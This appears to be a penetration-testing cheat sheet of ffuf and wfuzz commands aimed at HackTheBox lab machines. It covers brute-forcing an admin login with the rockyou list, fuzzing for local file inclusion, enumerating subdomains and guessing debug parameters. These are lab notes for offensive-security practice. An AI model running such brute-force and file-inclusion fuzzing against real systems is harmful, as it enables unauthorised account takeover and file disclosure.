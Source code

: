Fuzzing
========================


## FFUF

Brute force
    
    ffuf -c -w /usr/share/wordlists/rockyou.txt -r -mc 403 -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "j_username=admin&j_password=FUZZ&from=%2F&Submit=Sign+in" -u http://10.10.11.132:8080/j_spring_security_check]

    ffuf -c -w /usr/share/wordlists/rockyou.txt -r -mc 403 -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "j_username=admin&j_password=FUZZ&from=%2F&Submit=Sign+in" -u http://10.10.11.132:8080/j_spring_security_check

B rute force
    
    ffuf -c -w passwords_temp.txt -r -mc 403 -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "j_username=admin&j_password=FUZZ&from=%2F&Submit=Sign+in" -u http://10.10.11.132:8080/j_spring_security_check


Directory traversal

    ffuf -c -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u 'http://haircut.htb/exposed.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://haircut.htb' -H 'Connection: keep-alive' -H 'Referer: http://haircut.htb/exposed.php' -H 'Upgrade-Insecure-Requests: 1' -d 'formurl=http%3A%2F%2Flocalhost%2FFUZZ&submit=Go' -fs 966 -x http://127.0.0.1:8080


## WFUZZ

Subdomain
    
    wfuzz -u https://streamio.htb -H "Host: FUZZ.streamio.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 315
    
LFI
    
    wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hh 1678 -H "Cookie: PHPSESSID=iijak2sj64mghckom5220vo5vo" https://streamio.htb/admin/?debug=FUZZ